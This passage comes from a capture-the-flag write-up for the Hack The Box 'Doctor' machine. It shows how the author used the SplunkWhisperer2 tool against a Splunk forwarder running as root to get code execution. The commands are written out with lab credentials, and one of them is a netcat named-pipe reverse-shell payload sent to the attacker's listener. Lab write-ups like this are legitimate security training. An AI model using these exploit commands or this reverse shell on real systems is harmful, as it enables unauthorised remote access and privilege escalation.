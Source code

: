 The first thing that came up when googling `Splunk Forwarder exploit` was a github page titled [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2). Because the forwarder is running as root we might be able to priv esc using this repo. Reading the documentation we can try and interact with it.

```
┌──(kali㉿kali)-[~/htb/doctor]
└─$ git clone https://github.com/cnotin/SplunkWhisperer2
Cloning into 'SplunkWhisperer2'...
remote: Enumerating objects: 60, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 60 (delta 0), reused 0 (delta 0), pack-reused 54
Receiving objects: 100% (60/60), 22.00 KiB | 285.00 KiB/s, done.
Resolving deltas: 100% (19/19), done.
                                                                                                                                                             
┌──(kali㉿kali)-[~/htb/doctor]
└─$ cd SplunkWhisperer2/PySplunkWhisperer2 
                                                                                                                                                             
┌──(kali㉿kali)-[~/htb/doctor/SplunkWhisperer2/PySplunkWhisperer2]
└─$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.10 --username shaun --password Guitar123 --payload id
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp9mly5ddz.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.10:8181/
10.10.10.209 - - [22/Mar/2022 18:34:23] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!

```

It looks like this worked. I then tried a reverse shell. And we got one!

```
┌──(kali㉿kali)-[~/htb/doctor/SplunkWhisperer2/PySplunkWhisperer2]
└─$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --username shaun --password Guitar123 --lhost 10.10.14.10 --payload 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 4444 >/tmp/f'                                                                           
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpcxma8e8o.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.10:8181/
10.10.10.209 - - [22/Mar/2022 18:35:26] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(kali㉿kali)-[~/htb/doctor]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```